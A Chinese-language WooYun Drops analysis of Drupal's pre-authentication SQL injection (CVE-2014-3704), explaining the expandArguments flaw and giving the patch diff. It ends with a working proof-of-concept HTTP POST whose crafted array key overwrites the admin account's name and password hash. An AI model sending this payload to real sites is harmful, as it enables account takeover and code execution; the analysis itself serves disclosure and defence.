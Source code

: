 # Drupal - pre Auth SQL Injection Vulnerability

2014/10/16 11:33 | [爱小狐狸的小螃蟹](http://drops.wooyun.org/author/爱小狐狸的小螃蟹 "由 爱小狐狸的小螃蟹 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

```
影响版本：7.0 到 7.31
危害：非登录状态 SQL 注入，可造成代码执行。
风险：高危
厂商状态：Drupal 的 7.32 修复此漏洞
CVE：CVE-2014-3704 
```

## 0x01 细节

* * *

Drupal 在所有的 SQL 查询语句当中都是用的预编译来处理。

为了处理 IN 语句，有一个 expandArguments 函数来展开数组。

```
 protected function expandArguments(&$query, &$args) {
  $modified = FALSE;

  // If the placeholder value to insert is an array, assume that we need
  // to expand it out into a comma-delimited set of placeholders.
  foreach (array_filter($args, 'is_array') as $key => $data) {
    $new_keys = array();
    foreach ($data as $i => $value) {
      // This assumes that there are no other placeholders that use the same
      // name.  For example, if the array placeholder is defined as :example
      // and there is already an :example_2 placeholder, this will generate
      // a duplicate key.  We do not account for that as the calling code
      // is already broken if that happens.
      $new_keys[$key . '_' . $i] = $value;
    }

    // Update the query with the new placeholders.
    // preg_replace is necessary to ensure the replacement does not affect
    // placeholders that start with the same exact text. For example, if the
    // query contains the placeholders :foo and :foobar, and :foo has an
    // array of values, using str_replace would affect both placeholders,
    // but using the following preg_replace would only affect :foo because
    // it is followed by a non-word character.
    $query = preg_replace('#' . $key . 'b#', implode(', ', array_keys($new_keys)), $query);

    // Update the args array with the new placeholders.
    unset($args[$key]);
    $args += $new_keys;

    $modified = TRUE;
  }

  return $modified;
}

```

该函数假定它被调用时是没有 key 的。例如：

```
db_query("SELECT * FROM {users} where name IN (:name)", array(':name'=>array('user1','user2'))); 
```

执行的 SQL 语句为：

```
SELECT * from users where name IN (:name_0, :name_1) 
```

通过参数传入 name_0= user1，name_1=user2。

那么问题来了，如果带入数组当中有 key 并且不是整数呢。例如：

```
db_query("SELECT * FROM {users} where name IN (:name)", array(':name'=>array('test -- ' => 'user1','test' => 'user2'))); 
```

执行 SQL 语句为：

```
SELECT * FROM users WHERE name = :name_test -- , :name_test AND status = 1 
```

参数：name_test=user2。

由于 Drupal 使用 PDO，因此可以多语句查询。所以这个 SQL 注入向数据库里插入任意数据，下载或者修改存在的数据，甚至 drop 掉整个数据库。

攻击者可以通过向数据库里插入任意的数据，利用 Drupal 的特性执行 PHP 代码。

## 0x02 修复方案

* * *

```
diff --git a/includes/database/database.inc b/includes/database/database.inc
index f78098b..01b6385 100644
--- a/includes/database/database.inc
+++ b/includes/database/database.inc
@@ -736,7 +736,7 @@ abstract class DatabaseConnection extends PDO {
     // to expand it out into a comma-delimited set of placeholders.
     foreach (array_filter($args, 'is_array') as $key => $data) {
       $new_keys = array();
-      foreach ($data as $i => $value) {
+      foreach (array_values($data) as $i => $value) {
         // This assumes that there are no other placeholders that use the same
         // name.  For example, if the array placeholder is defined as :example
         // and there is already an :example_2 placeholder, this will generate

```

## 0x03 POC

* * *

有人在 pastebin 上放出了把原来 id 为 1 的管理，替换成名字为 owned，密码是 thanks 的管理员。

```
POST /drupal-7.31/?q=node&destination=node HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/drupal-7.31/
Cookie: Drupal.toolbar.collapsed=0; Drupal.tableDrag.showWeight=0; has_js=1
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 231

name[0%20;update+users+set+name%3d'owned'+,+pass+%3d+'$S$DkIkdKLIvRK0iVHm99X7B/M8QC17E1Tp/kMOd1Ie8V/PgWjtAZld'+where+uid+%3d+'1';;#%20%20]=test3&name[0]=test&pass=shit2&test2=test&form_build_id=&form_id=user_login_block&op=Log+in 
```

版权声明：未经授权禁止转载 [爱小狐狸的小螃蟹](http://drops.wooyun.org/author/爱小狐狸的小螃蟹 "由 爱小狐狸的小螃蟹 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [SQL Injection via DNS](http://drops.wooyun.org/tips/4605)
*   [RansomWeb:一种新兴的 web 安全威胁](http://drops.wooyun.org/papers/4834)
*   [DedeCMS 最新通杀注入(buy_action.php)漏洞分析](http://drops.wooyun.org/papers/979)
*   [Shell Injection & Command Injection](http://drops.wooyun.org/papers/1018)
*   [Codeigniter 利用加密 Key（密钥）的对象注入漏洞](http://drops.wooyun.org/papers/1449)
*   [PHP WDDX Serializier Data Injection Vulnerability](http://drops.wooyun.org/tips/3911)